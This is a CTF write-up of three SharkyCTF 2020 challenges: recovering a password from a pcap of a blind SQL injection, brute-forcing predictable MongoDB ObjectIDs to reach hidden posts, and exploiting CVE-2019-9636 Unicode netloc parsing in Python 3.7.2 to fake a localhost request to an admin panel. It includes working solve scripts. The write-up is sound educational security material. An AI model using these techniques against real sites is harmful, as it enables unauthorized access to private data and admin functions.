 # SharkyCTF 2020
I basically didn't work on this CTF much and spent my time doing other stuff :).

RGBsec got ~~3rd~~ 4th my b.


## Pain in the ass
> It looks like someone dumped our database. Please help us know what has been leaked ...
>
> Attached: pain-in-the-ass.pcapng

After waiting a while for the whole 26 MB of pcapng glory to download, we open the packets in WireShark.

It seems someone has been running a blind SQLi, and extracting the password of a user called `d4rk2phi`.

We can dump everything related to `d4rk2phi` with `strings pain-in-the-ass.pcapng > dump.txt`.

After that, we just have to match the char number and char in the blind SQLi:

```python
import re

f = open("dump.txt").readlines()

offset_regex = r"OFFSET\s\d\),(\d+)"
char_regex = r"=\s\'(.)\'"

pw = [""]*80

for i in f:
    try:
        offset = int(re.search(offset_regex, i).group(1))

        char = re.search(char_regex, i).group(1)

        pw[offset] = char
        
    except:
        pass

print(''.join(pw))
# hkCTF{4lm0st_h1dd3n_3xtr4ct10n_0e18e336adc8236a0452cd570f74542}
# IDK why the first character isn't there
```

Flag: `shkCTF{4lm0st_h1dd3n_3xtr4ct10n_0e18e336adc8236a0452cd570f74542}`


## Containment 
>Hello, welcome on "Containment Forever"! There are 2 categories of posts, only the first is available, get access to the posts on the flag category to retrieve the flag.
>
>containment-forever.sharkyctf.xyz

We are given some entries in a database, with namely their ObjectID. This reminded me of an [ACTF2018 challenge](https://www.pwndiary.com/write-ups/angstrom-ctf-2018-the-best-website-write-up-web230/). It's the same solve :).

```python
import requests

url = "http://containment-forever.sharkyctf.xyz/item/"

t1 = "5e75dab2"
t2 = "5e948a3a"
mid = "d7b160"
pid = "0013"
c = 0x655bb5

for i in range(200):
    offset = hex(c+i)[2:]

    p = requests.get(url + t1 + mid + pid + offset)
    if p.ok:
        print(url + t1 + mid + pid + offset)
        break


for i in range(200):
    offset = hex(c+i)[2:]

    p = requests.get(url + t2 + mid + pid + offset)
    if p.ok:
        print(url + t2 + mid + pid + offset)
        break
```


## Aqua world
>My friend opened this handmade aquarium blog recently and told me some strangers connected to his admin panel and he doesn't understand how it is possible.. I'm asking you to get the answer!
>
>http://aquaworld.sharkyctf.xyz/
>
>Hint: WTF this PYTHON version is deprecated!!!

From the hint we can probably assume it's going to be a "find-the-CVE" type problem.

Inspecting response headers from the page reveals the server is using `Werkzeug/1.0.1 Python/3.7.2`.

After hitting the cool green `Log in anonymously` button, we decide to visit the grayed out "Admin" link through inspect element.

![](https://i.imgur.com/fAMWkoV.png)

which takes us to `/admin-query?flag=flag`:

> Hi anonymous You need to connect locally in order to access the admin section (and get the flag) but you current netlocation (netloc) is http://aquaworld.sharkyctf.xyz

We need to somehow get the server to think that we were accessing from localhost.

My first reaction was to somehow SSRF, but there was no attack surface for that.

Going back to the hint, we search for [Python 3.7.2 CVEs](https://www.cvedetails.com/vulnerability-list/vendor_id-10210/product_id-18230/version_id-285731/Python-Python-3.7.2.html).

[CVE-2019-9636](https://www.cvedetails.com/cve/CVE-2019-9636/) jumps out immediately, as it has the word `netloc` in the description.

We can implement an attack following this thread: [https://bugs.python.org/issue36216](https://bugs.python.org/issue36216).

It's important to use a version of Python <= 3.7.2 for the solve script, which still has the bug.

I got stuck here for a while, trying every combination of the attack with the url. Eventually bAse figures out you have to put the unicode+@+localhost at the end of the ENDPOINT, not at the end of the netloc or anywhere else.

Also, keep the `Authorization` header unless you want a 403.

```python
import requests

headers = {
    "Authorization":"Basic YW5vbnltb3VzOmFub255bW91cw=="
}

p = requests.get("http://aquaworld.sharkyctf.xyz/admin-query\uFF03@127.0.0.1?flag=flag", headers=headers)
print(p.text)
```

Flag: `shkCTF{NFKC_normalization_can_be_dangerous!_8471b9b2da83011a07efc2899819da65}`.
